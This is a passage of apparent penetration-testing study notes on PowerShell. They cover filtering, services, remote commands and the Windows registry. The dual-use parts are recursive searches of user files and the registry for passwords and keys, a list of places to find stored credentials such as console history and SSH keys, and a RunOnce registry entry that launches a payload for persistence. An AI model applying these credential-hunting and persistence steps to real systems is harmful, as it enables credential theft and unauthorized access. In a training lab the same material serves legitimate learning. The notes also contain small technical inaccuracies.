    1 True                      {MTanaka}
```

Sorting, grouping and filtering are all useful tools that will help us focus on the relevant data we are interested and throwing away the useless data we don't care about.

### Where
Sometimes what we are looking for might not be as clear to us as we would like, but we know sorta what we want. Say we are looking for a service and we know part of the name.

`Get-Service | where DisplayName -like '*Defender*'`

```
Status   Name               DisplayName
------   ----               -----------
Running  mpssvc             Windows Defender Firewall
Stopped  Sense              Windows Defender Advanced Threat Pr...
Running  WdNisSvc           Microsoft Defender Antivirus Networ...
Running  WinDefend          Microsoft Defender Antivirus Service
```

Here i prompted PowerShell that i was looking for a DisplayName -like "*Defender*" *note* that the search string is a regex. 

Like is not the only comparison operator we can use
* like
* Contains
* Equal
* Match
* Not

### Pipeline (|)
Like with bash the pipeline forwards the returned object and parses in as an argument to the statement afther the pipeline. You can chain maybe statements together like that:
`get-process | sort | unique | measure-object`

#### Chain Operators (&& and ||)
* && executes the next statement if the first statement succeeds 
* || executes the next statement if the first statement failed.

Only works with PowerShell 7 and above.


### Finding data within content
Say we are unable to bring in tools from the outside, how can we hunt for sensitive data? 

`Select-String` is a good place to start it functions much like grep.

Lets examine this string
`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt")}`

This will recursivly enumerate every subdir of the path given and while suppressing any errors we get will return any .txt file it finds. 

However txt files are not the only interesting file type on a system, so lets expand with some more types!

`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt" -or $_.Name -like "*.py" -or $_.Name -like "*.ps1" -or $_.Name -like "*.md" -or $_.Name -like "*.csv")}`

Using the or operator we now have a good change of finding some interesting files.

Now lets search some interesting files for string keywords!

`Get-ChildItem -Path C:\Users\MTanaka\ -Filter "*.txt" -Recurse -File | sls "Password","credential","key"`

I have reduced the scope of file searches for clarities sake. The txt files we do find we search for the strings Password, credential and key. 

### Good Places to look for Treasure

* Looking in a Users \AppData\ folder is a great place to start. Many applications store configuration files, temp saves of documents, and more.
* A Users home folder C:\Users\User\ is a common storage place; things like VPN keys, SSH keys, and more are stored. Typically in hidden folders. (Get-ChildItem -Hidden)
* The Console History files kept by the host are an endless well of information, especially if you land on an administrator's host. You can check two different points:
* C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
* Get-Content (Get-PSReadlineOption).HistorySavePath
* Checking a user's clipboard may also yield useful information. You can do so with Get-Clipboard
* Looking at Scheduled tasks can be helpful as well.

# Working with Services

## How do we interact with services in PowerShell?
Getting help works the same as usual

`Get-Help *-Service`

`Get-Service | ft DisplayName,Status` 

This return an easy to read table of serviceNames and their status.

This command will allow us to measure how many Services we have running
`Get-Service | where Status -match Running | measure`

I like cmd examples OK!
`Get-Service | where DisplayName -like '*Defender*' | ft DisplayName,ServiceName,Status`

`Start-Service WinDefend`
you can also stop and restart services

## Remote Services using PowerShell
Say we wanna interact with a remote host in our domain we simpy use the flag `-ComputerName` and enter the hostname 

```
PS C:\htb> get-service -ComputerName ACADEMY-ICL-DC

Status   Name               DisplayName
------   ----               -----------
Running  ADWS               Active Directory Web Services
Stopped  AppIDSvc           Application Identity
Stopped  AppMgmt            Application Management
Stopped  AppReadiness       App Readiness
Stopped  AppXSvc            AppX Deployment Service (AppXSVC)
Running  BFE                Base Filtering Engine
Stopped  BITS               Background Intelligent Transfer Ser...
<SNIP> 
```
Perhaps a filter is in order:
```
PS C:\htb> Get-Service -ComputerName ACADEMY-ICL-DC | Where-Object {$_.Status -eq "Running"}

Status   Name               DisplayName
------   ----               -----------
Running  ADWS               Active Directory Web Services
Running  BFE                Base Filtering Engine
Running  COMSysApp          COM+ System Application
Running  CoreMessagingRe... CoreMessaging
Running  CryptSvc           Cryptographic Services
Running  DcomLaunch         DCOM Server Process Launcher
Running  Dfs                DFS Namespace
Running  DFSR               DFS Replication
```

Now we would like to run a command on multiple hosts
```
PS C:\htb> invoke-command -ComputerName ACADEMY-ICL-DC,LOCALHOST -ScriptBlock {Get-Service -Name 'windefend'}

Status   Name               DisplayName                            PSComputerName
------   ----               -----------                            --------------
Running  windefend          Microsoft Defender Antivirus Service   LOCALHOST
Running  windefend          Windows Defender Antivirus Service     ACADEMY-ICL-DC
```
# Working with the Registry 
The Windows Registry is a hierarchal tree with keys and matching values

Key can contain other keys and values as data.

![Keys](registry.webp "Green is Keys")

The elements in the green are keys that contain other "sub-keys" 

## Registry Key Files
A host systems Registry root keys are stored in several different files and can be accessed from `C:\Windows\System32\Config\`

Along with these Key files, registry hives are held throughout the host in various other places.

```
PS C:\htb> Get-ChildItem C:\Windows\System32\config\

    Directory: C:\Windows\System32\config

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d----           12/7/2019  4:14 AM                Journal
d----           12/7/2019  4:14 AM                RegBack
d----           4/28/2021 11:43 AM                systemprofile
d----           9/18/2021 12:22 AM                TxR
-a---          10/12/2022 10:06 AM         786432 BBI
-a---           1/20/2021  5:13 PM          28672 BCD-Template
-a---          10/18/2022 11:14 AM       38273024 COMPONENTS
-a---          10/12/2022 10:06 AM        1048576 DEFAULT
-a---          10/15/2022  9:33 PM       13463552 DRIVERS
-a---           1/27/2021  2:54 PM          32768 ELAM
-a---          10/12/2022 10:06 AM         131072 SAM
-a---          10/12/2022 10:06 AM          65536 SECURITY
-a---          10/12/2022 10:06 AM      168034304 SOFTWARE
-a---          10/12/2022 10:06 AM       29884416 SYSTEM
-a---          10/12/2022 10:06 AM           1623 VSMIDK
```
More can be found here [here](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives)

## What Are Values
The values are stored in the registry between the orange lines in the image below.
![here](registry-values.webp)
A more detailed list of types is available here:
[Link](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-value-types)

## Registry Hives
|Name|	Abbreviation|	Description|
|-----|----------|----------|
|HKEY_LOCAL_MACHINE	|HKLM|	This subtree contains information about the computer's physical state, such as hardware and operating system data, bus types, memory, device drivers, and more.|
|HKEY_CURRENT_CONFIG	|HKCC|	This section contains records for the host's current hardware profile. (shows the variance between current and default setups) Think of this as a redirection of the HKLM CurrentControlSet profile key.|
|HKEY_CLASSES_ROOT	|HKCR|	Filetype information, UI extensions, and backward compatibility settings are defined here.|
|HKEY_CURRENT_USER|	HKCU|	Value entries here define the specific OS and software settings for each specific user. Roaming profile settings, including user preferences, are stored under HKCU.|
|HKEY_USERS|	HKU|	The default User profile and current user configuration settings for the local computer are defined under HKU.|

[Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/predefined-keys) has more information on this.

## Access the Information
Commonly the reg.exe application is used to access the registry, however since we might only have shell access to the machine we would like to know how to interact with the registry via powershell

1. `Get-Item`
2. `Get-ItemProperty`
3. `Get-ChildItem`

### 1 Get-Item
```
PS C:\htb> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run | Select-Object -ExpandProperty Property  

SecurityHealth
RtkAudUService
WavesSvc
DisplayLinkTrayApp
LogiOptions
Acrobat Assistant 8.0
(default)
Focusrite Notifier
AdobeGCInvoker-1.0
```

### 2 Recursive Search

```
PS C:\htb> Get-ChildItem -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion -Recurse

Hive: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths
<SNIP>
Name                           Property
----                           --------
7zFM.exe                       (default) : C:\Program Files\7-Zip\7zFM.exe
                               Path      : C:\Program Files\7-Zip\
Acrobat.exe                    (default) : C:\Program Files\Adobe\Acrobat DC\Acrobat\Acrobat.exe
                               Path      : C:\Program Files\Adobe\Acrobat DC\Acrobat\
AcrobatInfo.exe                (default) : C:\Program Files\Adobe\Acrobat DC\Acrobat\AcrobatInfo.exe
                               Path      : C:\Program Files\Adobe\Acrobat DC\Acrobat\
AcroDist.exe                   Path      : C:\Program Files\Adobe\Acrobat DC\Acrobat\
                               (default) : C:\Program Files\Adobe\Acrobat DC\Acrobat\Acrodist.exe
Ahk2Exe.exe                    (default) : C:\Program Files\AutoHotkey\Compiler\Ahk2Exe.exe
AutoHotkey.exe                 (default) : C:\Program Files\AutoHotkey\AutoHotkey.exe
chrome.exe                     (default) : C:\Program Files\Google\Chrome\Application\chrome.exe
                               Path      : C:\Program Files\Google\Chrome\Application
cmmgr32.exe                    CmNative          : 2
                               CmstpExtensionDll : C:\Windows\System32\cmcfg32.dll
CNMNSST.exe                    (default) : C:\Program Files (x86)\Canon\IJ Network Scanner Selector EX\CNMNSST.exe
                               Path      : C:\Program Files (x86)\Canon\IJ Network Scanner Selector EX
devenv.exe                     (default) : "C:\Program Files\Microsoft Visual
                               Studio\2022\Community\common7\ide\devenv.exe"
dfshim.dll                     UseURL : 1
excel.exe                      (default) : C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE
                               Path      : C:\Program Files\Microsoft Office\Root\Office16\
                               UseURL    : 1
                               SaveURL   : 1
fsquirt.exe                    DropTarget : {047ea9a0-93bb-415f-a1c3-d7aeb3dd5087}
IEDIAG.EXE                     (default) : C:\Program Files\Internet Explorer\IEDIAGCMD.EXE
                               Path      : C:\Program Files\Internet Explorer;
IEDIAGCMD.EXE                  (default) : C:\Program Files\Internet Explorer\IEDIAGCMD.EXE
                               Path      : C:\Program Files\Internet Explorer;
IEXPLORE.EXE                   (default) : C:\Program Files\Internet Explorer\IEXPLORE.EXE
                               Path      : C:\Program Files\Internet Explorer;
install.exe                    BlockOnTSNonInstallMode : 1
javaws.exe                     (default) : C:\Program Files\Java\jre1.8.0_341\bin\javaws.exe
                               Path      : C:\Program Files\Java\jre1.8.0_341\bin
licensemanagershellext.exe     (default) : C:\Windows\System32\licensemanagershellext.exe
mip.exe                        (default) : C:\Program Files\Common Files\Microsoft Shared\Ink\mip.exe
mpc-hc64.exe                   (default) : C:\Program Files (x86)\K-Lite Codec Pack\MPC-HC64\mpc-hc64.exe
                               Path      : C:\Program Files (x86)\K-Lite Codec Pack\MPC-HC64
mplayer2.exe                   (default) : "C:\Program Files\Windows Media Player\wmplayer.exe"
                               Path      : C:\Program Files\Windows Media Player
MSACCESS.EXE                   (default) : C:\Program Files\Microsoft Office\Root\Office16\MSACCESS.EXE
                               Path      : C:\Program Files\Microsoft Office\Root\Office16\
                               UseURL    : 1
msedge.exe                     (default) : C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
                               Path      : C:\Program Files (x86)\Microsoft\Edge\Application

    Hive: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\msedge.exe

Name                           Property
----                           --------
SupportedProtocols             http  :
                               https :
<SNIP>  
```

### 3 property
```
PS C:\htb> Get-ItemProperty -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

SecurityHealth        : C:\Windows\system32\SecurityHealthSystray.exe
RtkAudUService        : "C:\Windows\System32\DriverStore\FileRepository\realtekservice.inf_amd64_85cff5320735903
                        d\RtkAudUService64.exe" -background
WavesSvc              : "C:\Windows\System32\DriverStore\FileRepository\wavesapo9de.inf_amd64_d350b8504310bbf5\W
                        avesSvc64.exe" -Jack
DisplayLinkTrayApp    : "C:\Program Files\DisplayLink Core Software\DisplayLinkTrayApp.exe" -basicMode
LogiOptions           : C:\Program Files\Logitech\LogiOptions\LogiOptions.exe /noui
Acrobat Assistant 8.0 : "C:\Program Files\Adobe\Acrobat DC\Acrobat\Acrotray.exe"
(default)             :
Focusrite Notifier    : "C:\Program Files\Focusriteusb\Focusrite Notifier.exe"
AdobeGCInvoker-1.0    : "C:\Program Files (x86)\Common Files\Adobe\AdobeGCClient\AGCInvokerUtility.exe"
PSPath                : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curren
                        tVersion\Run
PSParentPath          : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curren
                        tVersion
PSChildName           : Run
PSProvider            : Microsoft.PowerShell.Core\Registry
```

### Reg Query 

`REG QUERY HKCU /F "password" /t REG_SZ /S /K`

* **Reg query**: We are calling on Reg.exe and specifying that we want to query data.
* **HKCU**: This portion is setting the path to search. In this instance, we are looking in all of HKey_Current_User.
* **/f "password"**: /f sets the pattern we are searching for. In this instance, we are looking for "Password".
* **/t REG_SZ**: /t is setting the value type to search. If we do not specify, reg query will search through every type.
* **/s**: /s says to search through all subkeys and values recursively.
* **/k**: /k narrows it down to only searching through Key names.pecifying 

## Creating and Modifying Registry Keys and Values
Here we can use the PowerShell cmdlets: `New-Item` `Set-Item`, `New-ItemProperty` and `Set-ItemProperty`. `reg.exe` can aslo be used. 

In the following example we will create a test new test key in the registry hive `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`

RunOnce has the buildin effect that it will call the key-value once, at boot and then delete it. Automatic Cleaning up any mess we make. 

A practical scenario for this would be to create a soft kind of persistence on a system ensuring that if the host is restarted our payload can be re-executed at boot. 

Lets get started
### New Regitry Key

`New-Item -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\ -Name TestKey`

### Setting Item Property
`New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\TestKey -Name  "access" -PropertyType String -Value "C:\Users\htb-student\Downloads\payload.exe"`

As mentioned the same can be done with the a reg.exe cmd 
`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\TestKey" /v access /t REG_SZ /d "C:\Users\htb-student\Downloads\payload.exe"  
`

If you made a mistake you can always clean up `Remove-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\TestKey -Name "access"`

# Windows Event Log